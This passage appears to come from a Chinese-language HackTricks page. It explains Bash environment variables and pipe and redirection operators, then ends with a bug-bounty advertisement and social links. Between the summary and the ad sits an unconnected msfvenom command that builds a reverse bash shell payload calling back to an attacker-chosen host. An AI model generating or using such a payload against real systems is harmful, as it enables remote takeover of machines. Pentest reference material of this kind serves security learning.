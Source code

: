 可以使用以下命令来查看和设置环境变量：

- 查看环境变量：`echo $VARIABLE_NAME`
- 设置环境变量：`export VARIABLE_NAME=value`

#### **管道和重定向**

Bash支持管道和重定向操作，以便将命令的输出发送到其他命令或文件中。以下是一些常用的管道和重定向操作符：

- `|`：将一个命令的输出发送到另一个命令。
- `>`：将命令的输出重定向到文件（覆盖原有内容）。
- `>>`：将命令的输出追加到文件末尾。
- `<`：将文件的内容作为命令的输入。
- `2>`：将命令的错误输出重定向到文件。

#### **总结**

Bash是一种强大而灵活的命令行解释器，可以用于执行命令、编写脚本和管理系统。掌握Bash的基本用法和常用技巧对于进行渗透测试和系统管理非常有帮助。
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof 是所有加密漏洞赏金的家园。**

**无需等待即可获得奖励**\
HackenProof 的赏金只有在客户存入奖励预算后才会启动。在漏洞验证后，您将获得奖励。

**在 web3 渗透测试中积累经验**\
区块链协议和智能合约是新的互联网！在其兴起的时代掌握 web3 安全。

**成为 web3 黑客传奇**\
每次验证的漏洞都会获得声誉积分，并登上每周排行榜的榜首。

[**在 HackenProof 上注册**](https://hackenproof.com/register) 开始从您的黑客攻击中获利！

{% embed url="https://hackenproof.com/register" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
